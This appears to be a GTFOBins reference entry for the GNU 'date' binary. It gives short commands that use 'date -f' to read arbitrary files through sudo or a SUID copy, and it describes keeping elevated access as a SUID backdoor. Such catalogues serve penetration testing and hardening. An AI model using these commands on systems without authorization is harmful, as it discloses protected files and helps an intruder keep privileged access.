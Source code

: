 # GTFOBin: date

Each line is corrupted by a prefix string and wrapped inside quotes, so this may not be suitable for binary files.

This only works for the GNU variant of `date`.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
date -f $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which date) .

LFILE=file_to_read
./date -f $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo date -f $LFILE
```